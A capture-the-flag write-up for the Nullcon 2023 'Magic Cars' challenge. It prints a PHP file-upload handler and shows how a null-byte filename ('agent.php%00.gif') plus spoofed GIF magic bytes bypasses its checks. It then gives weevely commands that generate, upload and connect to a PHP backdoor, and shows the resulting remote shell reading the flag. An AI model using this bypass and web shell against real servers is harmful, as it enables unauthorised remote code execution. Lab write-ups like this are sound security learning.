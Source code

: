 ```yaml
---
title: Nullcon 2023 - Magic Cars
date: Sun Aug 20 11:12:41 AM +04 2023
categories: [Writeup]
tags: [ctf,nullcon,nullcon2023,web,file_upload]
---
```


##  Description
 
...Writing after ctf ended so no access to challenge descriptions...

[http://52.59.124.14:10021/](http://52.59.124.14:10021/)

[Source](https://ctf.nullcon.net/files/15db6b81ee7cd7e76f50bfefd22acc79/source.zip?token=eyJ1c2VyX2lkIjo1ODEsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjMzfQ.ZOEfTA.Nuv6AjGbyXTP5JDYdwRykFjDy3E)

## Analysis

Given source doesnt contain much, 99% is just frontend. What we are interested is `index.php`

PHP code inside `index.php`:

```php
  <?php error_reporting(0); ?>
  <?php
    $files = $_FILES["fileToUpload"];
    $uploadOk = true;
    if ($files["name"] != "") {
        $target_dir = urldecode("images/" . $files["name"]);
        if (strpos($target_dir, "..") !== false) {
            $uploadOk = false;
        }
        if (filesize($files["tmp_name"]) > 1 * 1000) {
            $uploadOk = false;
            echo "too big!!!";
        }
        $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $type = finfo_file($finfo, $files["tmp_name"]);
        finfo_close($finfo);
        if ($extension != "gif" || strpos($type, "image/gif") === false) {
            echo " Sorry, only gif files are accepted";
            $uploadOk = false;
        }
        $target_dir = strtok($target_dir, chr(0));
        if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
            echo "<a href='$target_dir'>uploaded gif here go see it!</a>";
        }
    }
?>
```

We can upload files and view them. There's few restrictions:
1. Filename cant contain `..` (Prevents directory traversal)
2. File size cant exceed 1000kb
3. It has to be type of GIF
4. Extension must be a GIF

Type checking is easy to bypass due to [magic bytes](https://www.wikiwand.com/en/List_of_file_signatures), tricky part is `$extension`.

I found the attack vector on one of the [Hak5 Forum](https://forums.hak5.org/topic/39958-bypassing-pathinfo-or-getimagesize-php-shell-upload/)<br>
It says is that if you do `exploit.php%00.jpg` `pathinfo` will parse extension as `.jpg`, but actual filename is `exploit.php` due to NULL byte.

## Solution

I used [weevely](https://github.com/epinna/weevely3) to generate PHP payload.

```bash
└─$ weevely generate Password123$ agent.php%00.gif # Create Backdoor
Generated 'agent.php%00.gif' with password 'Password123$' of 781 byte size.
                                                                                                                                                                                                                  
└─$ sed -i '1s/^/GIF8;\n/' agent.php%00.gif # Add Magic Bytes
                                                                                                                                                                                                                  
└─$ file agent.php%00.gif # Check If GIF
agent.php%00.gif: GIF image data 16188 x 26736
```

> Wikipedia says that gif magic bytes are `GIF87a` or `GIF89a`. I learned `GIF8;` from [IppSec](https://ippsec.rocks/?#) and it works so... yeah.
{: .prompt-info }

Upload.<br>
Response: `a href='images/agent.php'>uploaded gif here go see it!</a></body>`

Connect to backdoor:
```bash
└─$ weevely http://52.59.124.14:10021/images/agent.php Password123$

[+] weevely 4.0.1
[+] Target:     www-data@9a8170bf2def:/var/www/html
[+] Session:    /home/<>/.weevely/sessions/52.59.124.14/agent_0.session
[+] Shell:      System shell
[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

www-data@9a8170bf2def:/var/www/html $ ls -alh
total 76K
drwxr-xr-x 1 root     www-data 4.0K Aug 18 22:29 .
drwxr-xr-x 1 root     root     4.0K Dec 11  2020 ..
-rwxr-xr-x 1 root     www-data  286 Aug 18 18:53 Dockerfile
-rwxr-xr-x 1 root     www-data 7.5K Aug 16 09:36 apache2.conf
drwxr-xr-x 1 root     www-data 4.0K Aug 16 09:36 css
-rwxr-xr-x 1 root     www-data  118 Aug 18 15:35 docker-compose.yml
-rwxr-xr-x 1 root     www-data   49 Aug 18 18:53 entrypoint.sh
-rwxr-xr-x 1 root     www-data   38 Aug 16 09:36 flag.flag
drwxr-xr-x 1 www-data www-data  12K Aug 20 07:10 images
-rwxr-xr-x 1 root     www-data 2.9K Aug 16 09:36 index.php
drwxr-xr-x 1 root     www-data 4.0K Aug 16 09:36 js
-rwxr-xr-x 1 root     www-data  463 Aug 18 18:53 script.sh

www-data@9a8170bf2def:/var/www/html $ cat flag.flag
ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}
```

> Flag: ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}
{: .prompt-tip }